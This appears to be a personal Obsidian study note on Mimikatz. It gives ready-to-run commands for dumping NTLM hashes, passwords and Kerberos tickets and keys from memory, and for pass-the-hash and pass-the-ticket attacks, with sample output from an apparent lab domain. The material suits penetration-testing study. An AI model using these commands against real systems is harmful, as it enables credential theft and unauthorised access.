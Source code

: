 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
Mimikatz is a windows tool for extracting plaintext passwords, hashes, PIN codes, and kerberos tickets from memory. It is also capable of performing Pass-the-Hash, Pass-the-Ticket, or build *Golden* tickets.
> [pypykatz](https://github.com/skelsec/pypykatz) is a python implementation of the tool that can be run on linux systems.
> [Linikatz](https://github.com/CiscoCXSecurity/linikatz) performs a similar role for linux too

## Installation
Pre-built binaries available in the git repo: https://github.com/gentilkiwi/mimikatz/releases
## Documentation
**Cheatsheet:** 
**Website:** https://github.com/gentilkiwi/mimikatz
## Usage
### Obtaining Hashes & Tickets
```cmd
# Obtain NTLM hashes for users
C:\> mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit

# Obtain Kerberos Tickets (This potentially doesn't work for some W10 versions as it uses the wrong encryption)
C:\> mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit

C:\> dir *.kirbi

<SNIP>
-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-johnny@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
<SNIP>

```
> For the tickets:
> - If it ends with `$` (Result 2 above) then it corresponds to the computer account (allowing the system to interact with Active Directory)
> - User tickets have the user's name (Result 1 above) followed by an `@` then the service name and domain. It follows the format `[random_value]-username@service-domain.local.kirbi`
> - If a user ticket has the service `krbtgt` then it is the [[Kerberos#Ticket Granting Ticket (TGT)|TGT]] of that account.

### Exporting Kerberos Keys
Keys are not the same as tickets, they are encryption keys that Kerberos uses for creating TGTs.
```cmd
C:\> mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

### Pass-the-Hash
Using the `sekurlsa::pth` module we can perform a pass-the-hash attack. It starts a process using the user's hash.
```cmd
C:\> mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /NTLM:<hash> /domain:<AD_domain> /run:cmd.exe" exit
```
> We can specify any program in the `/run:` flag to launch any program but a shell is often most useful.

### Pass the Ticket
Using the `kerberos::ptt` module we can perform a pass-the-ticket attack using a `.kirbi` ticket file.
```cmd
C:\> mimikatz.exe privilege::debug "kerberos::ptt <ticket_file> exit
```